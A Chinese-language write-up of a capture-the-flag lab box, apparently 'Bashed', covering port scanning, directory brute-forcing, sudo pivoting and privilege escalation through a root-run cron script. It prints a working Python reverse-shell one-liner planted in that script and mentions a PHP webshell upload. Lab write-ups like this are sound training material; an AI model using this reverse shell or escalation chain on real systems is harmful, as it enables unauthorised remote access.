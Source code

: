 ## nmap

```Bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

```



## 80

目录爆破

![](https://secure2.wostatic.cn/static/wGXcX6ghbzmtj9EiDojX68/image.png?auth_key=1677500138-vfUvjzFo3btfUUpcTFHtFs-0-0a7b4174fb8fccd178269e7321fdc270)



拿到一个bash界面，用python3的反弹shell成功

在/home目录下拿到www-data的user.txt



/home目录中存在另一个用户 scriptmanager，sudo -l显示该www-data可以sudo以scriptmanager执行

```Bash
# 切换到scriptmanager下
 sudo -u scriptmanager bash

```



找到一个定时执行的目录和脚本，脚本生成的txt文件是root权限，说明脚本是被root执行的

```Bash
scriptmanager@bashed:/scripts$ ls -lh
ls -lh
total 8.0K
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec  4  2017 test.py
-rw-r--r-- 1 root          root          12 Jan  1 04:18 test.txt
scriptmanager@bashed:/scripts$

scriptmanager@bashed:/scripts$ date
date
Sun Jan  1 04:19:05 PST 2023
scriptmanager@bashed:/scripts$ pwd
pwd
/scripts
scriptmanager@bashed:/scripts$

```



将test.py修改成执行反弹shell

```Bash
# 这里发现revershells.com 的python 都不行，只有用 pentestmonkey的那个才能成功
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```



## beyond root

参考了下之前round1 的解题，这里还有几个思路

1、利用uploads文件夹可以渲染的前提，传一个php木马到uploads文件加里面，渲染后拿到shell

2、提权也可以用ubuntu的版本，直接用c脚本提权



